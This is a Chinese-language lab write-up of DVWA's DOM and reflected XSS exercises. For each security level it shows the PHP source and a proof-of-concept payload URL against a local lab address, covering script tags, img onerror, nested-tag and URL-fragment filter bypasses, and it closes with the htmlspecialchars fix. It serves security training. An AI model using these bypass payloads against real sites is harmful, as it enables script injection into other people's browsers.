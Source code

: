 ```yaml
---

title: DVWA XSS
date: 2020-12-22 10:01:48
categories: dvwa
tags: 
- xss
---
```


## XSS (DOM)

### low 级别

**source**

```php
<?php

# No protections, anything goes

?>
```

```
http://192.168.3.38/vulnerabilities/xss_d/?default=English<script>alert('xss')</script>
```

<!-- more -->

![xss-dom-low](https://cdn.jsdelivr.net/gh/yzbtdiy/images@main/security/dvwa/xss-dom-low.jpg)

### medium 级别

过滤掉了 script 标签, 但可以使用 img 标签

**source**

```php
<?php

// Is there any input?
if ( array_key_exists( "default", $_GET ) && !is_null ($_GET[ 'default' ]) ) {
    $default = $_GET['default'];
    
    # Do not allow script tags
    if (stripos ($default, "<script") !== false) {
        header ("location: ?default=English");
        exit;
    }
}

?>
```

```
http://192.168.3.38/vulnerabilities/xss_d/?default=English</select><img src=1 onerror=alert('xss')>
```

![xss-dom-medium](https://cdn.jsdelivr.net/gh/yzbtdiy/images@main/security/dvwa/xss-dom-medium.jpg)

### high 级别

设置了白名单, 只允许使用特定关键字, 但使用 `#` 之后的内容被识别为注释, 仍然可以执行

**source**

```php
<?php

// Is there any input?
if ( array_key_exists( "default", $_GET ) && !is_null ($_GET[ 'default' ]) ) {

    # White list the allowable languages
    switch ($_GET['default']) {
        case "French":
        case "English":
        case "German":
        case "Spanish":
            # ok
            break;
        default:
            header ("location: ?default=English");
            exit;
    }
}

?>
```

```
http://192.168.3.38/vulnerabilities/xss_d/?default=German#<script>alert('xss')</script>
```

![xss-dom-high](https://cdn.jsdelivr.net/gh/yzbtdiy/images@main/security/dvwa/xss-dom-high.jpg)

### impossible 级别

开启了客户端保护

```php
<?php

# Don't need to do anything, protction handled on the client side

?>
```

## XSS (Reflected)

### low 级别

**source**

```php
<?php

header ("X-XSS-Protection: 0");

// Is there any input?
if( array_key_exists( "name", $_GET ) && $_GET[ 'name' ] != NULL ) {
    // Feedback for end user
    echo '<pre>Hello ' . $_GET[ 'name' ] . '</pre>';
}

?>
```

```
http://192.168.3.38/vulnerabilities/xss_r/?name=<script>alert('xss')</script>#
```

### medium 级别

**source**

```php
<?php

header ("X-XSS-Protection: 0");

// Is there any input?
if( array_key_exists( "name", $_GET ) && $_GET[ 'name' ] != NULL ) {
    // Get input
    $name = str_replace( '<script>', '', $_GET[ 'name' ] );

    // Feedback for end user
    echo "<pre>Hello ${name}</pre>";
}

?>
```

将 `<script>` 替换为空, 可以使用 `<scr<script>ipt>` 绕过

```
http://192.168.3.38/vulnerabilities/xss_r/?name=<scr<script>ipt>alert('xss')</script>#
```

### high 级别

**source**

```php
<?php

header ("X-XSS-Protection: 0");

// Is there any input?
if( array_key_exists( "name", $_GET ) && $_GET[ 'name' ] != NULL ) {
    // Get input
    $name = preg_replace( '/<(.*)s(.*)c(.*)r(.*)i(.*)p(.*)t/i', '', $_GET[ 'name' ] );

    // Feedback for end user
    echo "<pre>Hello ${name}</pre>";
}

?>
```

过滤掉了 `<script` 关键字, 但 <img> 标签仍然可用

```
http://192.168.3.38/vulnerabilities/xss_r/?name=<img src=1 onerror=alert('xss')>#
```

### impossible 级别

**source**

```php
<?php

// Is there any input?
if( array_key_exists( "name", $_GET ) && $_GET[ 'name' ] != NULL ) {
    // Check Anti-CSRF token
    checkToken( $_REQUEST[ 'user_token' ], $_SESSION[ 'session_token' ], 'index.php' );

    // Get input
    $name = htmlspecialchars( $_GET[ 'name' ] );

    // Feedback for end user
    echo "<pre>Hello ${name}</pre>";
}

// Generate Anti-CSRF token
generateSessionToken();

?>
```

使用 [`htmlspecialchars`](https://www.php.net/htmlspecialchars) 对特殊字符转义, 无法使用 html 标签

